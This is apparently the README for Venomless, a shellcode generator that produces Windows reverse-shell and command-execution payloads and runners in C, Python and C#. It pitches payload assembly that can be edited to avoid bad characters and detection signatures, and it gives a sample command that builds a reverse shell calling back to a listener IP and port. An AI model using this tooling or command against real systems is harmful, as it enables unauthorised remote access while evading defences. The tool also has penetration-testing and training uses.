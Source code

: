 # Summary 

Venomless is a custom shellcode generator designed to provide either a reverse shell or a cmd. The biggest feature is that it can output a keystone engine python script with all of the assembly for the payload. This can then be customized to avoid bad characters and signatures. 

It can also provide simple payloads in c, python and csharp format as well as shellcode runners in those languages.

## usage

The following will create a python script for generating the shellcode for a reverse shell. The assembly can be customized to avoid bad characters or signatures.

`venomless.py -r -l 192.168.100.1 -p 443 -t`


-r, --revshell                      Generate a reverse shell. Requires -l, --lhost and -p, --port arguments.
-c <command>, --cmd                 Creates a payload that uses the WinExec API call to perform a command. 
-o <filename>, --output             Outputs the shellcode to a text file 
-f, --format <format>
        formats:
        assembly              Outputs the assembly 
        keystone              Outputs a python script that contains the shellcode and will use the keystone engine to test the payload. Useful for editing out bad bytes. 
        python                Outputs the Shellcode in a python byte array. If -t set, then will generate a python script to test payload.
        csharp                Outputs the shellcode in a csharp byte array. If -t set, then will generate a .cs file to compile to test payload. 
        c                Outputs the shellcode in a c byte array. If -t set, then will generate a .c file to compile to test payload.

-b, --badchars      Will search for bad characters in output and highlight them. Will also provide basic disassembly of relevant shellcode.

